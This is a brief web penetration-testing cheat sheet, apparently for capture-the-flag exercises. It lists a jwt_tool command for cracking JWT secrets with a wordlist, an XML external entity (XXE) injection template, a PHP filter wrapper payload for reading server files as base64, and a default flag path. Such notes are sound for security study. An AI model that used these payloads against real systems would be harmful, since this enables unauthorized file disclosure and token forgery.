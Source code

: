# web-pen-testing
web-pen-testing
# python3 jwt_tool.py -t URL -rc TOKEN -C -d WORDLIST

# xml usage template
# <?xml version="1.0" encoding="ISO-8859-1"?>
# <!DOCTYPE [name] [
# <!ELEMENT [name] ANY>
# <!ENTITY [entityName] SYSTEM "command">
# ]>
# <name> &entityName; </name>
# template of php filters: 
php://filter/convert.base64-encode/resource= RES
# default path to web folder
/var/www/html/flag

